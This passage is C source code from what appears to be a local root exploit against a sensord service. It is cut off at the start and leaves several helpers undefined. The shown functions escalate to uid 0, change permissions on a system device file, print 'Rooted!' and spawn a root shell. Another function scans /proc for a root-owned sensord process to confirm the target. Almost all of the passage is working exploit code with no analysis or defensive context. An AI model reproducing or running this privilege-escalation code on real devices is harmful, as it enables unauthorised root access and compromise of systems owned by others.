 		        }
		        close(fd);
		    }
		    else
		        printf("[-] Can't open %s!\n", path);
		 
		}
		 
		void third_step()
		{
		    char path[1024];
		    //chmod(SH, 4755);
		    setuid(0);
		    setgid(0);
		    if(getuid() == 0)
		    {
		 
		        get_system_dev(path, sizeof(path));
		        chmod(path, 0600);
		        printf("[+] Rooted!\n");
		        system(SH);
		    }
		    else
		    {
		        printf("[-] No root here!\n");
		        exit(0);
		    }
		}
		bool verify()
		{
		    DIR* dir;
		    struct dirent *entry;
		    char spath[512];
		    bool res = false;
		    struct stat s;
		 
		    dir = opendir("/proc");
		    if(dir) {
		        while ((entry = readdir(dir)) != NULL) {
		            if (entry->d_type == DT_DIR) {
		                snprintf(spath, 512, "/proc/%s/cmdline", entry->d_name);
		 
		                if (isSensord(spath)) {
		                    stat(spath, &s);
		                    if (s.st_uid == 0)
		                        res = true;
		 
		                    break;
		                }
		            }
		        }
		        closedir(dir);
		    }
		    return res;
		}
		```
		